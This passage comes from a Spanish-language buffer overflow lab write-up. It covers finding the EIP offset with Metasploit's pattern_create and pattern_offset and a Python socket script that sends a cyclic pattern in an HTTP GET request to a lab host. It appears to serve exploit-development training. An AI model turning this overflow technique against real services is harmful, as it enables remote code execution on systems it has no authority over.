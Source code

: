 Una vez acontecido el BoF, ahora se tomará el control del EIP, para esto hay que descubrir cuántos bytes de deben enviar antes de sobrescribir el EIP, primero se debe crear una cadena de caracteres con patrón con la herramienta “pattern_create” de metasploit:

```bash
/usr/hsare/metasploit-framework/tools/exploit/pattern_create.rb -l 1800
```

Esto dará una cadena de caracteres que se ingresará como payload en el script:

```bash
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_add = "192.168.0.104"
port = 80

pattern = b"<patrón con 1800 caracteres>"

def exploit ():

    try:
        c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        c.settimeout(7)
        c.connect((ip_add, port))

        c.send(b"GET " + pattern + b" HTTP/1.1\r\n\r\n")
        c.recv(1024)
        c.close()
                
    except:
        print("[+] El programa ha concluido")
        sys.exit(1)

if __name__ == '__main__':
    exploit()
```

Al ejecutar el script se enviará esta cadena de caracteres y ahora se puede ver el valor de EIP en el Immunity Debugger.

![Untitled](/assets/Buffer-Overflow/Lab2/Untitled 3.png)

Ahora para descubrir el offset o junk que hay que ingresar antes de sobrescribir el EIP, se usa la herramienta “pattern_offset” de metasploit:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset -q 0x36684335
```

![Untitled](/assets/Buffer-Overflow/Lab2/Untitled 4.png)

